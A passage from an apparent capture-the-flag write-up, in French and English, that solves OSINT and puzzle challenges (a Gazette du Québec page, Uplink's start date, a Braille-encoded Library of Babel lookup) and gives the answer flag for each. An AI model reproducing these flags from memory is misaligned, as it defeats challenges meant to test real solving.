**Solution EN**

The magazine is La Gazette du Québec.

A quick google search brings us to [this link](https://www.publicationsduquebec.gouv.qc.ca/fileadmin/gazette/pdf_encrypte/lois_reglements/2023F/82082.pdf).

The page number is on th eupper right-hand side.

---

**Flag**
`polycyber{5877}`

---
</details>

<details>
  <summary>Before Prison Architect</summary>

**Solution FR**

Les créateurs de Prison Architect sont Introversion Software.

Si on recherche leurs jeux passés, on trouve Uplink.

En regardant n'importe quel début de partie sur YouTube, on peut trouver la date en haut à gauche. Chat GPT répond n'importe quoi.

---

**Solution EN**
 
The creators of Prison Architect are Introversion Software.

If you search for their past games, you'll find Uplink.

If you watch any game start on YouTube, you can find the date in the top left-hand corner. Chat GPT answers nonsense.

---

**Flag**
`polycyber{20100324}`

---
</details>

<details>
  <summary>Babel pour les aveugles</summary>

**Solution FR**

Avec Cyberchef, le contenu du fichier en Braille peut être décodé.

Ensuite, il faut faire le lien avec le [site de la librairie de Babel](https://libraryofbabel.info).

Il faut mettre tout en minuscule après avoir décodé le texte en Braille.

Avec la fonction "Browse" de la librairie de babel, on peut entrer les valeurs pour l'hexagone (tout ce qui est avant le premier tiret), le mur (w1), l'étagère (s5), le volume (v08) et la page (52).

Le flag est le mot qui suit le mot polycyber.

---

**Solution EN**

With Cyberchef, the content of the Braille file can be decoded.

Then you need to establish the connection with the [librairie de Babel website](https://libraryofbabel.info).

After decoding the Braille text, everything must be lower-cased.

Using the "Browse" function in the library of Babel, you can enter values for the hexagon (everything before the first hyphen), the wall (w1), the shelf (s5), the volume (v08) and the page (52).

The flag is the word that follows the word polycyber.

---

**Flag**
`polycyber{spinsters}`
</details>
